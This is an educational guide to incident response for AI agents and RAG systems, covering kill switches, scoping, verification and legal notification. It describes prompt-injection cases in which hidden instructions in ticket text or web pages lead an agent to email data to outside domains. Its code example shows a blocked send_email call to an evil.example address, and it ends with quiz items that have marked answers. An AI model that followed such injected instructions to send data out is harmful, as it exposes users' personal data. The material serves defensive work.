

## TL;DR
AI incident response is a prepared process to detect, contain, investigate and learn from AI failures:
wrong answers at scale, data leakage, injection-triggered tool calls, silent model changes. Agents need
per-tool kill switches, because they stay "up" while doing harm.

## For agent builders
- **Why it matters for agents.** An agent manipulated by text in a web page makes a perfectly valid API
  call; a RAG agent quoting a superseded policy returns HTTP 200. Nothing pages anyone. You need content
  signals to detect it and levers finer than "turn the agent off" to contain it.
- **Where it shows up in your stack.** Feature flags evaluated in the tool executor (per tool, intent and
  tenant), the degraded mode your agent falls back to, the audit trail and traces that record model, prompt,
  retrieved documents and tool calls per run, and the regression suite you run after every index refresh.
- **What you control.** Which kill switches exist before the first incident, snapshotting prompt, config,
  index and model before any fix, scoping affected users from logged runs, and verifying a fix as a failure
  rate over many runs.
- **What you can skip.** Writing your own severity framework from scratch. Reuse the SRE process (severity,
  incident commander, postmortem) and add the AI-specific detection, levers, evidence and people.

## Decision case
### Scenario
A SaaS vendor runs a support agent for 200 tenants. At 14:00 the action-signal alert fires: `send_email`
calls to domains outside each tenant's customer list jumped from near zero to 40 in an hour, all from 3
tenants. Traces show an instruction hidden in pasted ticket text. All figures are illustrative.
- **Volume:** 60,000 agent runs a day; 10% call `send_email`, so 6,000 emails a day, about 250 an hour.
- **Levers already built:** flags per tool and tenant in the tool executor, and a degraded mode that
  answers in chat and queues follow-ups for a person.
- **Constraints:**
  - the emails may contain personal data; the vendor processes tenant data as a GDPR processor, so it
    must tell the affected tenants without undue delay, and each tenant's own 72-hour clock runs from
    when it becomes aware;
  - the human team can absorb about 1,500 extra follow-ups a day;
  - nobody yet knows whether the same text sits in other tenants' tickets;
  - legal wants the evidence preserved before anything changes.

### Options
| Option | How it works | Stops the harm? | Extra human load | Function lost |
|---|---|---|---|---|
| **A. Agent off everywhere** | global flag routes all 60,000 runs a day to people | yes | about 2,500 an hour: far over 1,500 a day | everything |
| **B. `send_email` off for all tenants** | tool flag `("send_email", "*")`; the agent answers in chat, emails queue | yes, for every tenant | 250 an hour: 1,500 reached after 6 hours | outbound email only |
| **C. `send_email` off for the 3 tenants** | per-tenant flags | only where the injection is already seen | if the 3 tenants carry 4% of traffic, about 240 a day | outbound email in 3 tenants |
| **D. Tighten the injection detector** | lower the classifier threshold, keep all tools on | unknown: probabilistic against an adaptive attacker | none | none |

### Decision
Choose **B now, then narrow to C once scope is known**, because B is the narrowest lever that *certainly*
stops the harm while the spread is unknown.
- **Certainty:** C assumes the injection is limited to 3 tenants, which nobody has checked; D bets on a
  detector the attacker already beat.
- **Load:** B queues about 250 emails an hour, so the team has a 6-hour window (1,500 ÷ 250) to finish
  scoping; A breaks the human queue in minutes.
- **Order:** snapshot the prompt, config, tool list and model ID first, page legal and privacy at triage,
  then flip the flag.
- **Narrowing:** query the audit trail for runs whose retrieved ticket text contains the injected string
  across all 200 tenants. If only the 3 tenants match, re-enable `send_email` for the other 197 and keep
  it off for the 3.

**What would change it:**
- **The scope query takes longer than 6 hours:** the queue overruns; add staff or auto-send a holding
  reply in chat.
- **Matches in many tenants:** keep B and fix before re-enabling anywhere.
- **The injected text also drives `issue_refund`:** disable that tool too; money moves faster than email.

### Trade-offs accepted
- **197 tenants lose email for hours** that may turn out to be unaffected. Track the time from flag flip
  to narrowing as an incident metric.
- **Re-enabling needs evidence, not one clean run.** Before the 3 tenants get email back, re-run the
  injected tickets: 300 clean runs bound the rate below about 1% (rule of three).
- **Notification depends on the 40 emails' content.** Read the logged bodies to count the people whose data
  left; send each affected tenant that count so it can decide on its 72-hour report from facts, not from
  the scope estimate.

### Review rubric
- **Containment comes before diagnosis**, and evidence is snapshotted before the first change.
- **The chosen lever is justified by certainty under unknown scope**, not only by how little it breaks.
- **Human load from the degraded mode is computed** against capacity, with a time window stated.
- **A concrete query narrows scope** from the audit trail, with the condition that triggers narrowing.
- **Legal clocks are started at triage** with the vendor's role (processor or controller) named, and
  notification is tied to counted affected people.
- **Re-enabling has a verification bar** sized as a failure rate over many runs.

## Why it exists
- **Many AI incidents trip no standard alert.** A support assistant quoting a wrong refund policy returns
  HTTP 200 in 800 ms. An agent manipulated by text in a web page makes a perfectly valid API call. A provider
  model update makes the classifier, say, 10 points worse on one language, and dashboards stay green.
- **The first signal is often external:** a screenshot on social media, a customer escalation or a
  journalist.
- **Teams without a plan improvise in exactly the wrong ways.** No kill switch exists, so the feature cannot
  be switched off quickly. The prompt is patched live without capturing the old one, so the failure cannot
  be reproduced. Nobody knows which users got bad outputs, so nobody can be notified.
- **Legal clocks start at awareness, not root cause.** A GDPR personal data breach must normally be reported
  to the supervisory authority within 72 hours of becoming aware of it. The EU AI Act requires providers of
  high-risk systems to report serious incidents to market surveillance authorities, generally within 15
  days and faster for the gravest cases. Triage must decide early whether personal data or a high-risk
  system is involved.
- **"Our SRE process covers it" is half right.** Severity levels, incident commanders and postmortems carry
  over. Missing: AI-specific detection, containment levers, evidence to preserve, and the people to involve
  (legal, privacy, responsible AI, the model vendor).

## How it works
### 1. Prepare
- **Taxonomy and severity.** Define AI incident types (harmful output, factual error at scale, data
  exposure, security abuse such as injection or jailbreak, unfair outcome, unauthorized action by an agent,
  third-party model change) with severity based on harm to people and the organization, not uptime.
- **Containment levers built in advance,** because the time to build a kill switch is not during the
  incident:
  - feature flags to disable the AI path per tenant or globally;
  - a degraded mode (canned answers, search results only, human queue);
  - disabling individual tools for agents;
  - pinning or rolling back the model and prompt version;
  - pulling a document from the retrieval index.
- **Evidence.** Audit trails and traces recording model version, prompt version, retrieved documents and
  tool calls per request and per agent step, retained long enough to investigate.
- **Runbooks and contacts.** Legal and privacy on call, the provider's security contact, a comms owner.

### 2. Detect
Combine signals, *because* no single one is reliable:
- **Content signals:** online evaluations on sampled traffic (groundedness, policy violations), guardrail
  trigger rates, injection detector hits.
- **Action signals (agents):** spikes in calls to a sensitive tool, external recipients, approval-gate
  rejection rates, runs hitting step budgets.
- **Human signals:** user feedback and complaint spikes, override rates by human reviewers, an obvious way
  for staff and customers to report a bad output.
- **Change signals:** eval deltas after any dependency change.

### 3. Contain
- **Stop the harm first, diagnose second.**
- **Use the narrowest lever that stops it:** one tool before the whole agent, one tenant before all tenants,
  one document before the index.
- **Preserve state before changing it:** snapshot the current prompt, config and model version so the
  failure can be reproduced.

### 4. Investigate
- **Reconstruct from the evidence:** which requests were affected (scope), since when (onset, often
  correlated with a deploy, index refresh or provider update), and why (root cause).
- **Look in the usual places.** AI root causes typically live in input data, retrieved content, prompt or
  config, model version, tool permissions, or user behaviour.
- **Reproduce with the recorded versions as a rate.** Outputs are stochastic, so measure a failure rate over
  many runs instead of trusting one reproduction.
- **Scope is a number, not a feeling.**
  1. Count requests in the onset window whose recorded inputs match the failure condition (retrieved the bad
     document, hit the changed model version, called the abused tool). This bounds who might be affected.
  2. Of those, count outputs that actually went wrong, judged by re-running a check on the *logged* outputs.
     This decides who is notified.

### 5. Verify the fix with a rate, not a run
- **Zero failures in *n* independent runs does not mean a zero failure rate.**
- **Rule of three:** the 95% upper bound on the true rate is about 3/n.
- **So ten clean runs only show the rate is probably below about 30%;** to claim below 1% you need roughly 300
  clean runs across the failing cases.
- **Size verification to the harm:** a wrong leave policy and a leaked salary file deserve different bounds.

### 6. Remediate and notify
- **Fix the cause and add the failing cases to the regression suite** so it cannot silently return.
- **Assess notification duties with legal:** affected users, customers under contract, data protection
  authorities, and regulators where AI-specific reporting applies.

### 7. Learn
- **A blameless postmortem** that updates the risk register (likelihood was higher than estimated), adds or
  changes key risk indicators, and checks whether the containment lever worked fast enough.

## Diagram
The order matters: triage starts the legal clocks, containment comes before diagnosis, and state is
snapshotted before anything changes.



## Examples
### Per-tool kill switch in the agent's tool executor
Flags are read at call time, so flipping one contains the incident without a deploy. A disabled tool
returns a structured refusal the model can relay, and the run keeps going for everything else.

```python
FLAGS = {  # in production: a feature-flag service evaluated per request
    ("send_email", "*"): False,            # incident: email tool disabled for every tenant
    ("issue_refund", "tenant-42"): False,  # one tenant contained, others unaffected
}

def tool_enabled(tool: str, tenant: str) -> bool:
    for key in ((tool, tenant), (tool, "*")):
        if key in FLAGS:
            return FLAGS[key]
    return True

def execute_tool(tool: str, args: dict, tenant: str, run_id: str, step: int, registry: dict) -> dict:
    if not tool_enabled(tool, tenant):
        # audit the blocked attempt: a spike here is itself an incident signal
        print(f"audit run={run_id} step={step} tool={tool} status=blocked_by_flag")
        return {"error": "tool_unavailable", "message": f"{tool} is temporarily disabled. "
                "Tell the user a human will follow up."}
    return registry[tool](**args)

registry = {"send_email": lambda to, body: {"sent": to}, "lookup_order": lambda oid: {"status": "shipped"}}
print(execute_tool("send_email", {"to": "x@evil.example", "body": "..."}, "tenant-7", "run-51", 4, registry))
print(execute_tool("lookup_order", {"oid": "A1"}, "tenant-7", "run-51", 5, registry))
```

### Sizing verification and scope from the audit trail
How many clean re-runs justify closing, and how many people to notify? The exact bound for zero failures
solves (1 − p)ⁿ = 0.05; the rule of three approximates it.

```python
import math

def upper_bound_zero_failures(n: int, conf: float = 0.95) -> float:
    """Largest failure rate p still consistent with 0 failures in n runs: (1 - p) ** n = 1 - conf."""
    return 1 - (1 - conf) ** (1 / n)

def runs_needed(target_rate: float, conf: float = 0.95) -> int:
    return math.ceil(math.log(1 - conf) / math.log(1 - target_rate))

for n in (10, 100, 300):
    print(f"n={n:>3}  exact bound {upper_bound_zero_failures(n):.3f}   rule of three {3 / n:.3f}")
# n= 10  exact bound 0.259   rule of three 0.300
# n=100  exact bound 0.030   rule of three 0.030
# n=300  exact bound 0.010   rule of three 0.010
print("clean runs to claim < 1%:", runs_needed(0.01))      # 299

def scope(records, bad_doc):
    exposed = [r for r in records if bad_doc in r["retrieved"]]   # matched the failure condition
    harmed = [r for r in exposed if not r["grounded_recheck"]]    # check re-run on the logged output
    return len(exposed), {r["user"] for r in harmed}

records = [
    {"user": "u1", "retrieved": ["leave-policy-2019.pdf"], "grounded_recheck": False},
    {"user": "u2", "retrieved": ["leave-policy-2019.pdf"], "grounded_recheck": True},
    {"user": "u3", "retrieved": ["leave-policy-2025.pdf"], "grounded_recheck": True},
]
print(scope(records, "leave-policy-2019.pdf"))            # (2, {'u1'}): 2 exposed, notify u1
```

### Worked timeline: HR policy assistant
An HR policy RAG assistant used by 8,000 employees (times and counts illustrative).

| Time | What happened |
|---|---|
| **09:10** | Two employees report the assistant says parental leave is 6 weeks; current policy is 16. No alerts fired: latency and error rate normal. |
| **09:25** | On-call classifies it as factual error at scale on a policy that affects employment decisions: high severity. Incident commander assigned; HR policy owner and legal paged. |
| **09:32** | Containment: the "leave policy" intent is switched by feature flag to a degraded mode returning a link to the policy page plus a human contact. The rest of the assistant stays up. Current prompt, index and model versions are snapshotted. |
| **10:40** | Audit trail: answers citing `leave-policy-2019.pdf` started after Monday's index refresh, which re-ingested an archived folder. 312 conversations since Monday retrieved it; 187 produced the wrong figure (re-running the groundedness check on the logged outputs). |
| **11:30** | Remediation: archived folder excluded at ingestion, document removed from the index, an expiry metadata filter added. The 20 failing questions are re-run 15 times each: 300 runs, zero stale answers, so the remaining rate is plausibly below about 1% (rule of three). |
| **11:30, in parallel** | The employees behind the 187 conversations are identified from the trail and HR sends them a correction. Legal confirms no personal data breach, so no regulator notification. |
| **Next day** | The same twenty leave-policy questions join the regression suite, which now runs after every index refresh. Postmortem action: ingestion requires a source allow-list. |

- **Register update:** likelihood for "stale policy retrieved" raised.
- **New KRI:** share of answers citing documents older than policy effective dates.

## Production patterns
- **Kill switch per intent, tool and tenant.** Put the AI path behind a feature flag with targeting by tenant
  and intent, plus a separate flag per agent tool checked in the tool executor, all evaluated at request time
  so a flip takes effect without a deploy. Monitor time from page to containment in every incident.
- **Degraded mode that is tested.** Ship a fallback (search results, canned answer with policy link, human
  queue) and exercise it in a game day each quarter. Monitor that the fallback path still returns
  successfully, since an untested fallback fails when needed.
- **Snapshot-before-change runbook step.** The first action after containment records the live prompt
  version, config hash, index version, tool list and model identifier into the incident ticket. Check in
  postmortems that every incident has one.
- **Index refresh as a monitored change.** Treat ingestion runs, index refreshes, tool additions and provider
  model updates like deploys: record them on the same change timeline and run the regression suite after
  each. Monitor eval deltas per change event.
- **Tabletop exercises with legal in the room.** Simulate a prompt injection that triggers an agent action, or
  a data leak through retrieval, and walk the GDPR 72-hour and EU AI Act reporting decisions. Track time to
  the notification decision.

## Trade-offs
- **Broad kill switches vs lost function.** They contain any incident in seconds but take down useful
  functionality; finer levers per tool, intent or tenant cost more to build and pay off once the system has
  many users.
- **Full prompt retention vs sensitive data.** Full prompts, tool results and outputs make scoping affected
  users exact but expand the sensitive data you hold; hashed references plus a shorter full-content window is
  a common middle ground.
- **Rollback speed vs availability.** Rolling back to the previous model or prompt is fast, but unavailable
  when the provider has retired the old version; contracts with deprecation notice and pinned versions keep
  that option open.
- **Sensitive monitors vs noise.** Low thresholds catch incidents early but page people for noise; tune on
  labelled history and route low-confidence signals to review queues, not pagers.

## Pitfalls
- **Hot-fixing the prompt in production without snapshotting the old one.** Symptom: a postmortem that cannot
  reproduce or explain the original failure. Fix: snapshot step first in the runbook.
- **Relying on uptime and error-rate alerts.** Symptom: customers or the press detect the incident before the
  team does. Fix: online evals and tool-call anomaly alerts.
- **Reproducing once and declaring the fix works.** Symptom: the same failure reappears at a lower but non-zero
  rate, because outputs are stochastic. Fix: verify as a rate over many runs.
- **No way to identify affected users.** Symptom: a blanket notification to everyone, or none at all. Fix:
  per-run evidence with user and retrieved document IDs.
- **Leaving legal and privacy out until the end.** Symptom: a missed notification deadline. Fix: page them at
  triage when personal data may be involved.

## When to use
- **Every production AI system:** at least a kill switch, a degraded mode, an incident category in the
  on-call process and request-level evidence.
- **High-risk tiers, acting tools or regulated data:** full runbooks, per-tool kill switches, tabletop
  exercises (for example, a simulated prompt injection that triggers an action), and pre-agreed notification
  paths.
- **Measure:** time to detect, time to contain, and the share of incidents first reported externally.
- **Interviews:** the signal is "contain before diagnose", the specific levers, and treating stochastic
  reproduction with rates rather than single runs.

## Role lens
- **Engineer:** Builds the feature flags, degraded modes, per-tool disable switches and version pinning
  that make containment a one-click action, and keeps traces rich enough to scope impact.
- **Architect:** Designs containment granularity, evidence retention and dependency rollback paths into the
  system, and ensures vendor contracts preserve the ability to pin or roll back models.
- **FDE:** Agrees with the customer who gets called, which lever they can pull themselves, and how their
  notification duties interact with yours before the first incident happens.

## Check yourself
**Q:** Monday morning your agent's refusal rate on a customer's workload jumps and some answers become
noticeably wrong. You deployed nothing over the weekend. How do you approach it?
**A:** First contain if users are harmed: switch affected intents to a degraded mode or route to humans.
Then look for what changed outside our deploys: a provider model update behind an alias, an index refresh
or new documents, a config or guardrail policy change, or a shift in user inputs. The audit trail's
model version field tells me quickly whether the provider changed. I would run our regression suite against
current and previous configurations and compare failure rates over many runs. If it is the provider, pin
the previous version if available, open a vendor ticket, and add the cases to the regression suite.

## Interview questions
### How is AI incident response different from a normal SRE incident process?
- **Detection differs:** the system often returns fast HTTP 200s while the content is wrong, so you need
  online evals, complaint spikes and override rates, not just latency and errors.
- **Containment and evidence differ:** levers are intents, tools, documents and model versions, and you must
  snapshot prompt, index and model before changing anything.
- **People differ:** legal, privacy, responsible AI and the vendor join early, because notification clocks
  start at awareness.

### An agent was tricked by a web page into emailing customer data. Walk me through the first hour.
- **Contain:** disable the email tool for that agent (narrowest lever), keep the rest running, snapshot
  config and versions.
- **Triage legally:** personal data is involved, so legal starts the GDPR 72-hour assessment now.
- **Scope from the trail:** runs that fetched the page and called the tool, then which sends contained data.

### What would you build into an agent before launch so that incidents are containable?
- **Per-tool, per-intent and per-tenant flags** checked in the tool executor at call time, returning a
  structured refusal the model can relay instead of crashing the run.
- **A tested degraded mode** (human queue or search-only) and pinned model and prompt versions you can roll
  back to.
- **Per-step evidence** (run ID, step, tool, arguments, retrieved document IDs) so scope is a query, plus
  alerts on sensitive tool-call spikes.

### You fixed the bug and 10 re-runs are clean. Can you close the incident?
- **Not for anything serious.** By the rule of three, 10 clean runs only bound the failure rate below about
  30%.
- **To claim below 1%,** run about 300 across the failing cases, then add them to the regression suite.

### Why would you build per-tool and per-intent kill switches when a global one is simpler?
- **A global switch removes all value** for every user, so teams hesitate to pull it.
- **Narrow levers contain faster in practice** because the cost of pulling them is small.
- **The trade-off is build cost,** which pays off once the system has many users and tenants.

### How do you decide whom to notify after a bad-output incident?
- **Two numbers:** exposed requests that matched the failure condition, then the subset whose logged outputs
  actually failed a re-run check.
- **Notify the second set,** as with the 187 of 312 conversations in the HR example, and confirm regulator
  duties with legal.

## Quiz
### Q: Why do many AI incidents go undetected by standard SRE alerting?
- [ ] AI systems do not emit metrics
- [x] The system can return fast, successful responses while the content of those responses is harmful or wrong
- [ ] Model providers hide their error rates from customers
- [ ] AI incidents only happen during deploys, when alerts are suppressed
> Latency and error-rate alerts measure availability, not correctness. A wrong or harmful answer is a
> successful HTTP response, so detection needs content-level signals such as online evals and feedback.

### Q: During containment, what should you do before changing the live prompt or configuration?
- [ ] Notify every user of the system
- [ ] Retrain the model on the failing examples
- [x] Snapshot the current prompt, configuration, index and model versions so the failure can be reproduced
- [ ] Delete the logs of affected conversations to limit exposure
> Fixing first destroys the state you need to understand the root cause. Preserving versions lets the
> investigation reproduce the failure; deleting logs would destroy evidence and could breach obligations.

### Q: A fix is applied and one re-run of the failing request now produces a correct answer. What is the main risk in closing the incident?
- [ ] One re-run proves the fix works, so there is no risk
- [x] Outputs are stochastic, so the failure may persist at a lower rate; measure it over many runs and add regression cases
- [ ] The fix must be approved by the model provider first
- [ ] Re-running requests violates audit trail integrity
> A single success is weak evidence for a probabilistic system. Measuring the failure rate across many runs
> and pinning the cases in a regression suite shows the fix works and keeps it from silently regressing.

## Use cases & projects
### Use cases
- **Injection-triggered tool calls.** Disabling one tool for one agent contains an exfiltration attempt while
  the rest of the product keeps serving.
- **Stale or poisoned retrieval.** Pulling one document and re-running the regression suite after each index
  refresh closes a RAG incident and stops it recurring.
- **Silent provider model updates.** The model ID in the audit trail plus a regression suite separates "the
  provider changed" from "we changed".
- **Notifying the right users.** Per-run evidence turns "who saw the wrong answer" into a query instead of a
  blanket email.

### Mini project
**Incident game day for a small agent (2-3 hours).**
- **Goal:** prove you can contain, scope and verify a fix for an agent incident in under 30 minutes.
- **Steps:** give a RAG agent a send-email tool and per-tool flags read at call time; log run ID, step, tool
  and retrieved document IDs; plant a document with an injected instruction to email data out; run 50 user
  questions; detect the tool-call spike, flip the flag, snapshot config, scope affected runs from the log,
  remove the document, and re-run the failing cases until the rule of three supports your claimed rate.
- **Done when:** you have a timeline table like the HR example with time to contain, exposed and harmed
  counts, and the regression cases added to CI.
